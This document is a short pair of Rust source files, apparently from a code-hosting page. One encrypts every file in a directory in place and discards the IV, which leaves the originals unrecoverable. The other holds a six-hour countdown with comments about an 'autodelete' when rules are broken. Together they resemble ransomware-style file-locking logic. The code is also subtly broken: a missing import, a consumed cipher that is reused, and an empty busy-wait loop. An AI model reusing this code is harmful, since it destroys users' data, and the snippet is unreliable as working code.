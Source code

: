 #### `backend/src/encryption.rs`

```rust
use aes::Aes256;
use block_modes::{BlockMode, Cbc};
use block_modes::block_padding::Pkcs7;
use rand::Rng;
use std::fs::File;
use std::io::Read;
use std::path::Path;

type Aes256Cbc = Cbc<Aes256, Pkcs7>;

pub fn encrypt_files(key: &[u8], directory: &str) {
    let mut rng = rand::thread_rng();
    let iv: [u8; 16] = rng.gen();

    let cipher = Aes256Cbc::new_var(key, &iv).unwrap();

    for entry in std::fs::read_dir(directory).unwrap() {
        let path = entry.unwrap().path();
        if path.is_file() {
            let mut file = File::open(&path).unwrap();
            let mut buffer = Vec::new();
            file.read_to_end(&mut buffer).unwrap();

            let ciphertext = cipher.encrypt_vec(&buffer);
            let mut encrypted_file = File::create(&path).unwrap();
            encrypted_file.write_all(&ciphertext).unwrap();
        }
    }
}
```

#### `backend/src/rules.rs`

```rust
use std::time::{Duration, Instant};

pub fn check_rules(state: &State) {
    if state.rules_broken {
        let start_time = Instant::now();
        while start_time.elapsed() < Duration::from_secs(21600) {
            // Check if rules are broken
            // If rules are broken, schedule autodelete
        }
    }
}

struct State {
    rules_broken: bool,
}
```
